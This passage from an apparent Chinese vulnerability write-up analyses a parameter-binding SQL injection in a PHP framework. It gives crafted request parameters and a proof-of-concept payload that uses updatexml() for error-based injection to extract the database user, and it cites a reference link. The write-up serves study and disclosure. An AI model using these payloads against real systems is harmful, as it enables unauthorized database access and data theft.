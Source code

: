 替换后：

![image](img/887c6a8cdd532265dc52c3ffe54c908d.png)

明显发现之前的`user`参数为:0然后被替换为了liao，这样就把:替换掉了。
后面的:1明显是替换不掉的：

![image](img/28417c9af372becebe1d34c4617471ee.png)

那么我们将id[1]数组的参数变为0呢？

```
id[]=bind&id[]=0%27&money[]=1123&user=liao 
```

![image](img/e1750b205bcc91f7bdab5b688ebd3164.png)

果然造成了注入：

### poc

```
money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1)) 
```

![image](img/a1e407b1f34f62bd8c6a3a86bf210c48.png)

## 参考链接

> https://www.anquanke.com/post/id/104847